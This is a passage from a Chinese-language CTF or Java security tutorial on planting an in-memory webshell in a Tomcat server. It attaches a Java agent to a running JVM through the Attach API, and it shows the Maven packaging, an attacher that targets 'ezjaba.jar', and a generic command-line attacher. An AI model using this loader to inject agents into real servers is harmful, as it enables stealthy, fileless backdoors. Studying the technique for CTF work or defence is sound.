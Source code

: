 ```
                        <goal>attached</goal>
                    </goals>
                    <phase>package</phase>
                </execution>
            </executions>
        </plugin>
    </plugins>
</build>
```
然后`mvn assembly:assembly` 命令打包即可，最后尝试加载
```java
import com.sun.tools.attach.*;

import java.io.IOException;
import java.util.List;

public class AgentMain {
    public static void main(String[] args) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException {
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for (VirtualMachineDescriptor vir : list) {
            System.out.println(vir.displayName());//打印JVM加载类名
            if (vir.displayName().endsWith("ezjaba.jar")) {
                VirtualMachine attach = VirtualMachine.attach(vir.id());
                String jarName = "C:\\Users\\bmth\\Desktop\\作业\\CTF学习\\java学习\\java-agent\\target\\java-agent-1.0-SNAPSHOT-jar-with-dependencies.jar";
                attach.loadAgent(jarName);
                attach.detach();
            }
        }
    }
}
```
成功植入内存马(注意要先访问一次，确保`org.apache.catalina.core.ApplicationFilterChain`被加载)
![](https://img-blog.csdnimg.cn/80b4414cfc1d4202ba02d69c1d15b216.png)


这里看到一个项目：[https://github.com/ethushiroha/JavaAgentTools](https://github.com/ethushiroha/JavaAgentTools)

我们可以写一个attacher
```java
import com.sun.tools.attach.*;

import java.io.IOException;

public class AgentMain {
    public static void main(String[] args) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException {
        String id = args[0];
        String jarName = args[1];

        System.out.println("id ==> " + id);
        System.out.println("jarName ==> " + jarName);

        VirtualMachine virtualMachine = VirtualMachine.attach(id);
        virtualMachine.loadAgent(jarName);
        virtualMachine.detach();

        System.out.println("ends");
    }
}
```
这样就可以在命令行上执行了